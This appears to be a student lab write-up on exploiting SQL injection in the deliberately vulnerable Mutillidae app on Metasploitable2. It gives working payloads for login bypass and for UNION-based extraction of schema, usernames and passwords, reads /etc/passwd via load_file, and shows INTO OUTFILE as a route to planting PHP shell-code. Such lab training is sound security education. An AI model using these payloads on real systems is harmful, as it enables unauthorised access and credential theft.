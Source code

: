 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. 
Identify IP address using ifconfig in Metasploitable2
![Screenshot 2024-05-08 180101](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/96d97aae-ac08-40e8-90f2-653f087cfffc)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![Screenshot 2024-05-11 083126](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/39c8a92e-a76b-4ad2-86fe-a32bc3acb85c)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:

![image](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/5bb3c600-d8b6-4200-868d-7cf6b5ecdd94)
Click on the menu Login/Register and register for an account
![image](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/67fe44b6-6173-405b-8979-afa730bc72e5)

Click on “Create Account” to display the following page:

![Screenshot 2024-05-10 152737](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/d905689b-1838-4604-9470-fcde8e395ff3)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;).
 For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![Screenshot 2024-05-10 154103](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/fca4854a-48f8-4f21-8a58-a64ae2dc3f71)

Click “Login”. The logged in page will show as below:
![Screenshot 2024-05-10 154131](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/906ebf34-dc1f-4866-9ec5-9a1fa7c10d78)



##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password. 

![Screenshot 2024-05-10 154224](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/43078c58-e84d-4da1-be20-89fc02902f2e)

Click the login button and you will see it enter into the administrator page.


## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. 
we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” 

After logging out, Now choose the menu as shown below:
![Screenshot 2024-05-10 184502](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e32fc296-84da-433c-a91c-f93ed18b324f)


![Screenshot 2024-05-10 184707](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e9875c83-f4e6-4ddd-ac53-8ce9e6b5ee49)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![Screenshot 2024-05-10 185903](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/3ba959ab-e3bb-44e2-bdf0-bf6cb76d6270)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=balaji%27order%20by6%23&password=balaji1234&user-info-php-submit-button=View+Account+Details
![Screenshot 2024-05-10 185457](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/a9f41584-f9b7-48ef-89d5-e64cdff7cef5)

After adding the order by 6 into the existing url , the following error statement will be obtained:
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![Screenshot 2024-05-10 185903](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/3ba959ab-e3bb-44e2-bdf0-bf6cb76d6270)

 As it is having 5 columns the query worked fine and it provides the correct result

![Screenshot 2024-05-10 184707](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e9875c83-f4e6-4ddd-ac53-8ce9e6b5ee49)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![Screenshot 2024-05-10 190103](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/e3758b8c-95be-4476-bf92-185020bd8aeb)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![Screenshot 2024-05-10 190129](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/8fa8d5a7-6ad5-47ab-8a78-d4a5f887504d)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,database(),user(),version(),5%23&password=vino1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-05-10 190425](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/ecdea388-621c-4dc7-99c0-7930a7ea9bf8)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=vino1234&user-info-php-submit-button=View+Account+Details
![Screenshot 2024-05-10 192136](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/03faa153-61f5-4862-9d36-5349a4a7567b)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
The column names of the accounts is displayed below for the following url:
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=vino1234&user-info-php-submit-button=View+Account+Details 

![Screenshot 2024-05-10 192427](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/1e600e4e-cc24-46c4-97d4-85dafc37e5ad)



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=vino1234&user-info-php-submit-button=View+Account+Details


![Screenshot 2024-05-10 192621](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/1ce121ab-3ac3-41dc-974d-e9ae64532695)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.197.62/mutillidae/index.php?page=user-info.php&username=vinothini%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=vino1234&user-info-php-submit-button=View+Account+Details

![Screenshot 2024-05-10 192735](https://github.com/yashvanthbalaji/sqlinjection/assets/145736316/a224d1dc-c4a9-46eb-9dbe-934202d5eeea)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
